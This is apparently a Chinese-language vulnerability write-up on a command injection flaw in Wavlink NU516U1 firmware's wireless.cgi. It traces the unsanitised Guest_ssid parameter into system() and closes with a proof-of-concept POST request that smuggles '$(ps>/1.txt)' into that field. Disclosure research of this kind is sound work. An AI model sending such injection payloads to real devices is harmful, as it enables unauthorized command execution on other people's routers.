 ```yaml
---
title: wavlink-NU516-wireless
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/1 11:20:53 
---
```


# 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

# 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值

![](/img/1.png)

将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数

![](/img/2.png)

sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控

![](img/3.png)

随后Guest_ssid参数值被传入sub_407504函数内

![](img/4.png)

在其中拼接给v8变量，交给system函数执行，产生了命令注入

![](img/5.png)

此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

# POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

